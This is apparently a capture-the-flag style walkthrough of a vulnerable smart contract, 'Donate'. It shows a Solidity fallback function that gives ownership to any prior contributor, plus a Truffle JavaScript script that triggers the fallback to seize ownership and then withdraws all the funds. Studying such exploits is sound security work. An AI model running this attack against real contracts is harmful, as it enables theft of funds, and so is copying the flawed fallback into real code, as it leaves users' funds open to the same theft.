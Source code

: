 ```javascript

  function() payable external {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }

```

```javascript
async function execute(callback) { 

    // get attacker address
    let badBoy = web3.eth.accounts[1]
    console.log(`badBoy address: ${badBoy}`)

    let contract = await DonateContract.deployed()

    // Check who's the owner
    let contractOwner = await contract.owner.call()
    console.log(`Contract owner: ${contractOwner}`)

    // Call the fallback function to become the owner of the contract
    console.log('start attacking contract');
    await contract.sendTransaction({
        from: badBoy ,
        value: web3.toWei(0.00000001, 'ether')
    })

    const changeContractOwner = await contract.owner.call()

    if( changeContractOwner == badBoy) {
        console.log(`Pwn contract successfully done , now ownership is transferring for badboy account ${badBoy}`)
    }

    console.log('withdraw all fund now with new owner')
    let response = await contract.withdraw({
        from: web3.eth.accounts[1]
    })

    console.log(`Withdrew all money at transaction ${response.tx}`)
    callback()

}
```

Let's become the owners of Donate.Note when i need to run the fallback function  i initiat transaction without specifiy function name
```javascript

await contract.sendTransaction({
        from: badBoy ,
        value: web3.toWei(0.00000001, 'ether')
    })
```
then let hit command `truffle exec pwn/donate.exploit.js` and check out the result.
